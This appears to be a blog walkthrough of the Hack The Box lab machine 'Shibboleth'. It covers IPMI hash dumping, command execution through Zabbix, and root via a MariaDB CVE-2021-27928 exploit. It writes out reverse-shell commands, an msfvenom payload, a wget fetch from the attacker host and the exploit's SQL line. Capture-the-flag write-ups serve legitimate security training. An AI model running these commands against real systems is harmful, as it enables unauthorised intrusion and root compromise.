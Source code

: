 ```yaml
---
title: 'HTB - Shibboleth'
author: paincakes
date: 2023-08-02 20:55:00 +0800
categories: [HTB, Medium]
tags: [linux, htb-walkthrough]
---
```



![Box-Info](https://paincakes.sirv.com/Images/HTB/Shibboleth/Info.png)

# Summary
The machine **Shibboleth** was a challenging and fun box. It starts with a static website and UDP port running “asf-rmcp” service which on exploitation leaks a hash from IPMI and cracked it to get creds to a Zabbix instance. Within Zabbix, we will have the agent to run a system command. Some credentials are reused to pivot to the next user. To get root, we will need to exploit a CVE in “MariaDB / MySQL” to gain the root terminal.


## NMAP Scanning

As always starting with enumeration with `nmap`.

![nmap](https://paincakes.sirv.com/Images/HTB/Shibboleth/nmap.png)

From the nmap results we can see only port 80 is running which is running an web server.

## Web Enumeration
Since only port 80 is open we can access its website. But before that we had to add the domain `shibboleth.htb` to the `/etc/hosts` file to access the webpage.

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/web%20page.png)

It was a completely static website which nothing much to do, so I started fuzzing its subdomains using `FUFF` tool.

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/web%20page.png)

After fuzzing the website, we can find the following subdomains,
- monitor.shibboleth.htb
- monitoring.shibboleth.htb
- zabbix.shibboleth.htb

All these Subdomains redirected to same Zabbix login page.

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/zabbix.png)

After further enumeration there was clue at bottom of the page. I had enumerated the Zabbix subdomains but “Bare Metal BMC automation” was something new
and I started further research on Bare Metal BMC automation which led me to IPMI hashes, and which can be captured with Metasploit framework. More about this on [here](https://metal.equinix.com/blog/redfish-and-the-future-of-bare-metal-server-automation/). From further research I knew that IPMI usually listens to port 623 udp port. So, now we can scan the port using `nmap`.

`sudo nmap -p 623 -sC -sV -sU <ip>`

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/udp.png)

## Enumerating asf-rmcp Service

Doing research on enumeration methods fot asf-rmcp service which was running on port 623. I came across this [post](https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/) which says about dumping IPMI hashes using Metasploit module `scanner/ipmi/ipmi_dumphashes`.

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/ipmi%20meta.png)

Now we need to configure the payload as required,

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/admin%20hash.png)

We get the hash of **Administrator** using this exploit which can be cracked using hashcat. I tried using ssh over known common usernames in Zabbix, but it was not successful. But the credentials could be used to login page found in `zabbix.shibboleth.htb` and could access the dashboard of **Administrator**.

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/admin%20dashboarf.png)

After enumerating further on the dashboard of Administrator I found that we could add item in “Host” configuration.

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/add%20item.png)

In the Key, I used `system.run[ id ]` to check if the functionality really works and executes the command remotely.

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/shell.png)

**Add** button would set this running periodically and be loud which is a bad practice so I used **Test**, which will run it once as a test without saving it. Clicking it will pop another box:

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/test.png)

Clicking “Get value” populates the “Value” field with the result of the script, in this case, the output of the `id` command.

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/id.png)

## Getting Reverse Shell
I first tried a normal bash reverse shell, but it just returned a value of 1 and didn’t make a connection. I suspected it have the redirects passing through Zabbix is causing this issue. For eliminating special character issues, I’ll base64 encode the command.

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/base64.png)

The `system.run[]` also takes mode as the second option, After I researched again on the `system.run[]` function, at Zabbix’s official documentation page. the section for `system.run` gave some detail of how it worked, It takes a command and an optional “wait” or “nowait”. With “nowait”, it returns 1 and doesn’t wait for execution to finish. So, the key will look something like this:
`system.run[echo <base64 payload> | base64 -d | bash, nowait]`

After starting the `netcat` listener, and now after pressing “get value”, it returned the value 1 again but this time it made a consistent revershell.

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/zabbix%20rev%20sehll.png)

I searched for user flag, but the user “Zabbix” didn’t have the user flag, so when I went to home directory there was a user named “ipmi-svc”. I tried logging in with the found password **ilovepumpkinpie1** and it was successful and used python to stabilize the shell.

The user flag was in home directory of **ipmi-svc** user.

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/userflag.png)

## Privilege Escalation
I did further manual enumeration from user **ipmi-svc** but there wasn’t much anything to exploit. After that I used LinPEAS to enumerate further and found that “Mysql” service was running with root privilege. I also used netstat which confirmed that `mysql` was running on port 3306.

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/netstat.png)

For finding the creds for MySQL, we will need the Zabbix configuration file, which will be found in `/etc/Zabbix` which is large, with most the lines being comments and default values. To find the DB creds, I used the `grep` command for removing extra useless values.

`cat zabbix_server.conf | grep -v "^#" | grep .`

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/password.png)

Now we can use the creds found, (zabbix: bloooarskybluh) to log in the mysql service which is running as `root`.

`mysql -u zabbix -p bloooarskybluh`

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/mysql.png)
On connecting to MySQL/MariaDB, the version string is printed. Googling for “10.3.25 MariaDB exploit”, there’s a lot of links about [CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928). To exploit this CVE, we will need a shared object (Linux’s version of a DLL), which can be created using MSFvenom.

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o exp.so`

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/msfvenom.png)

We can send the payload to the remote shibboleth machine using python’s `http.server` module on our local machine.

And now we can use `wget` command on the shibboleth machine to download the exploit file.

`wget <ip>/exp.so`

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/wget.png)

Now we can just run the command in mysql to load the so which executes it.
`SET GLOBAL wsrep_provider="/dev/shm/exp.so";`

![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/command.png)

But before executing the command make sure the `netcat` is listening on the assigned port to get the reverse shell and we can use python to stabilize the shell again.
![shibboleth](https://paincakes.sirv.com/Images/HTB/Shibboleth/root.png)

The location of the root flag was in root folder.














